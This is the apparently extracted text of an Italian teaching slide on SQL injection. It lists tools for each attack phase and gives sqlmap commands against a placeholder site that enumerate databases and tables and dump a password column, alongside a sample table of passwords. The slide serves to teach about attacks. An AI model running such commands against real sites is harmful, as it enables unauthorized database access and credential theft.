

# Ecco un esempio di attacco SQL injection
Ricognizione: controllo se il sito è vulnerabbile
Sqlmap –u «http://sito.com/login.php?id=1» --dbs

| password |
| --- |
| Admin000 |
| Pass1234? |
| Marco332 |
| zzzzzzzZ1! |
Scansione: cerchiamo ciò che ci interessa
Sqlmap –u «http://sito.com/login.php?id=1» -D data --tables

Esfiltrazione

Dnscat 2

Report

OpenVAS

Scansione

Nmap
Wireshark
Exploit

Hydra
SQLmap
Ricognizione

Recon –ng
Maltego
exploit: usiamo questa vulnerabilità per estrarre delle password
Sqlmap –u «http://sito.com/login.php?id=1»

esfiltrazione: estraiamo le password dal database
Sqlmap –u «http://sito.com/login.php?id=1» -D data –T user –C password --dump